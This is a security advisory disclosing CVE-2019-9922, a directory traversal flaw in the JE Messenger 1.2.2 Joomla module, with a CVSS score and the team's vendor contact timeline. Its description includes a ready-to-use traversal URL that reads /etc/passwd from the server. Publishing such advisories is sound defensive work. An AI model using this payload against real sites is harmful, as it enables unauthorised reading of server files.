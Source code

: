 # CVE-2019-9922

## Affected software
JE Messenger 1.2.2 Joomla Module by Harmis Technology.

## What: Directory Traversal
Due to insufficient protection mechanisms, it is possible to access arbitrary files from the server.

## Meta
During the preparation of one of our incident response exercises, one of our CERT Members (Tobias Roggenhofer) detected an unexpected behavior of the Joomla Module JE Messenger of Harmis Technology in its current version (1.2.2). Due to this behavior, we started analyzing this module and detected several vulnerabilities.

We informed the software-vendor that we have detected vulnerabilities in their module. Sadly a secure communication to share the details could not be established.

Since we still want to disclose our findings in a responsible way, we only announced the type of vulnerability and the associated risk in the first step on the 2019-03-29. This gives the software vendor time to patch the plugin or user the time to move to another plugin or temporarily disable it. Since 2019-05-01 we've published more details including some payloads.

## CVSS
CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:N/A:N : 5.8 (Medium)

## Detailed description
The vulnerability is located in the attachment download of the component. To exploit it you can ether sends yourself a message with an attachment, open it up and copy the download link of the attachment or simply use the following link:
	<www.example.vuln>/index.php/component/jemessenger/box_details?task=download&dw_file=<FileYouWantToDownload>

The following Example-url shows how to use this vulnerability to download the passwd file from the server:
	<www.example.vuln>/index.php/component/jemessenger/box_details?task=download&dw_file=../../.././../../../etc/passwd
	
![Image of the Exploit](/CVEs/CVE-2019-9922-passwd.png)


## Timeline
* 2019-03-05: Contacted vendor, request for encrypted communication
* 2019-03-06: Request from vendor to tell affected product (no encryption)
* 2019-03-06: Provided Module-Name (no encryption)
* 2019-03-06: Further contact with vendor, sadly still no encryption
* 2019-03-13: Reminder, deadline set for 18th of March for a response (no encryption)
* 2019-03-19: No response, reserving CVEs, planned release on 2019-04-01
* 2019-03-22: MITRE informs us that 5 CVEs are reserved 
* 2019-03-29: Publishing basic information, informing MITRE and vendor
* 2019-05-01: Publishing full vulnerability details
